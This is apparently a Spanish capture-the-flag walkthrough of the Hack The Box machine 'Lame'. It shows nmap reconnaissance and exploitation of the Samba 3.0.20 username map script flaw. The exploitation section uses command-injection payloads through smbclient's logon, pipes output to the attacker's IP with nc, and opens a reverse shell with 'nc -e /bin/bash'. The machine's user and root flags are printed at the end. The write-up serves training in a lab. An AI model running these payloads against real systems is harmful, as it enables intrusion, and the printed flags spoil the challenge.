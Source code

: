 # INFORMACIÓN:

La máquina Lame es una máquina Linux de dificultad Fácil, la técnica empleada es una Command Execution (Samba 3.0.20 < 3.0.25rc3 - Username Map Script).
# PROCEDIMIENTO:

## 1. RECONOCIMIENTO:

En primer lugar hacemos un ping a la máquina para comprobar si está activa:
$ping -c 1 10.10.10.3
Vemos que hemos enviado un paquete y hemos recibido otro paquete, por lo tanto está activa. Como se ve en el ttl (63) nos indica que estamos ante una máquina Linux.

A continuación realizamos un escaneo para ver los puertos abiertos a través del protocolo TCP.
$nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.3

Vemos que los puertos '21, 22, 139, 445' están abiertos, por lo que procedemos a realizar un escaneo de servicios y versiones que corren en dichos puertos.
$nmap -sCV -p21,22,139,445 10.10.10.3

Vemos que en el puerto 21 corre una versión de vsftpd 2.3.4, está versión tiene una vulnerabilidad que permite una ejecución remota de comandos, pero en este caso no se puede aplicar.

En el puerto 445 corre una versión de Samba 3.0.20, la cual presenta una vulnerabilidad que nos permite ejecutar comandos de forma remota.

## 2. EXPLOIT
En primer lugar listamos el contenido a través de smbclient :
$smbclient -L 10.10.10.3 -N --option 'client min protocol = NT1'

Vemos un recurso compartido mediante tmp, por lo que nos conectamos al recurso compartido en tmp:
$smbclient //10.10.10.3/tmp -N --option 'client min protocol = NT1'

Mediante el comando logon podemos introducir comandos para que sean ejecutados por la máquina víctima.
Para comprobar esto vamos a mandar un ping a nuestra máquina.
$tcpdump -i tun0 icmp -n
$logon "/=``nohup ping -c 1 10.10.14.108``"

Recibimos el ping en nuestra máquina por lo cual el comando se está ejecutando.

$nc -nlvp 433
$logon "/=`nohup whoami | nc 10.10.14.108 443`"

Recibimos el mensaje de 'root'

$nc -nlvp 443
$logon "/=`nohup ifconfig | nc 10.10.14.108 443`"

Vemos como la IP corresponde a la máquina víctima, por lo tanto los comandos son ejecutados por esta. A continuación, nos mandamos una consola:
$logon "/=`nohup nc -e /bin/bash 10.10.14.108 443`"

Ahora realizaremos el tratamiento de la tty:
$tty
$script /dev/null -c bash
Ctrl + z
$stty raw -echo; fg
$reset xterm
$export SHELL=bash
$export TERM=xterm
En una ventana a parte del sistema hacemos un:
$stty size
En la consola interactiva hacemos:
$stty rows 38 columns 184

Finalmente buscamos la flag del usuario.
$find / -name "user.txt" | xargs cat
7077790f0cc668fa879e5222c1992017

Y la flag de root.
$find / -name "root.txt" | xargs cat
1cacf1088d7b43924a1da8b7b7cafdee